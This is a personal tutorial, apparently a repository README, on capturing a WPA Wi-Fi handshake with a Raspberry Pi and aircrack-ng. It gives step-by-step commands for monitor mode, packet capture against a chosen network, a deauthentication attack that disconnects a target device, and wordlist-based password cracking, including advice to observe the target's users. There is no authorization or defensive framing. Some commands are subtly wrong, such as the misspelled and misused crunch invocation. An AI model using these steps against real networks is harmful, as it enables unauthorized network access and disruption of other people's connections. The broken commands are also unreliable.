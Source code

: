 # Get Wi-fi Handshake
>This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
>I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.
## Connecting Raspberry Pi
>Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
>Example: `ssh pi@192.168.1.100`.
>If it ask you something, type `yes` and then enter your user password.
## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```
## Downloading Airmon-ng
```
$ sudo apt-get install -y aircrack-ng
```
## Checking Available Wi-fi Adaptors
>Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
>You could either checking your adaptors by;
```
$ ifconfig
```
>or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
>You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
>This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
>After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
>This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
>After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
>Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
>This will start documentation with the name of `handshake`.
>To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
>With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
>To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
>After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
>Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
- Tip: The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
>After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` on top.

## Decrypting
>This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
>Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

### Aircrack-ng
>You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
### Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
>Example: `sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
>What this line do is, listing all the possible combination password that has min `4`, max `6` characters; the characters/numbers of `1, 2, 3, a and b` will be used and that starts with `a` and ends with `b`.
>Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

### Making Your Own rockyou List
>`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the users, try to guess possible key words and write them all.
>After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
>This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```
